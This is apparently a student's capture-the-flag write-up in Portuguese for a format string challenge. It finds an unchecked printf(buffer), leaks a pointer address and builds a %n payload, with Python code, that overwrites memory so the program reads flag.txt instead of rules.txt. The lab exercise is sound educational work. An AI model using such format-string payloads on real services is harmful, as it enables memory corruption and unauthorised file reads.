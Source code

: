 # Format Strings

## Setup

- Foi executado o comando `checksec` para identificar as proteções ativas no binário fornecido.

![image](screenshots/CTF6_1.png)

- As proteções presentes permitem que explorarmos vulnerabilidades de escrita arbitrária na memória.

## Reconhecimento

- O código fonte foi analisado para identificar as vulnerabilidades.

1. **Existência de Ficheiros Lidos**

   - A função `readtxt` lê um ficheiro chamado `"rules.txt"` ao inicializar o programa.
   - O nome do ficheiro pode ser manipulado pela exploração da vulnerabilidade de format string.

2. **Existência de `format string` Vulnerável**

   - Na função `main`, o programa usa diretamente `printf(buffer)` para exibir o input do utilizador, sem realizar validação.
   - Isso permite explorar a vulnerabilidade de format string para ler ou sobrescrever endereços de memória.

3. **Ação Potencial**

   - Substituir o nome do ficheiro lido de `rules.txt` para `flag.txt` através de manipulação da memória.

## Exploit

- O programa fornece o endereço da variável `fun` na memória:

```c
printf("I will give you an hint: %x\n", &fun);
```

- Extraímos então esse endereço utilizando regex

```py
match = re.search(r'I will give you an hint: (0x)?([0-9a-fA-F]+)', output)
if match:
    fun_addr = int(match.group(2), 16)
    print(f"[+] Endereço de fun extraído: {hex(fun_addr)}")
else:
    print("[-] Falha ao extrair o endereço de fun")
    r.close()
    exit()
```

- Foi criado um payload para modificar o valor do pointer `fun` para que a função `readtxt` seja chamada novamente com `flag.txt`:

```py
payload = b"./flag.." + p32(fun_addr) + b"%8x" + b"%.134518673x%n"
```
1. `./flag..`: O início do nome flag seguido por bytes de ajuste.
2. `p32(fun_addr)`: Endereço do ponteiro fun.
3. `%8x`: Preenche a pilha para alcançar o local correto de escrita.
4. `%.134518673x%n`: Ajusta o contador para escrever o valor necessário no endereço especificado.

- O payload foi enviado ao serviço remoto através do comando:

```py
r.sendline(payload)

buf = r.recvall().decode(errors="backslashreplace")
print(buf)

r.interactive()
```

- Foi possível então encontrar-mos a flag.

![image](screenshots/CTF6_2.png)

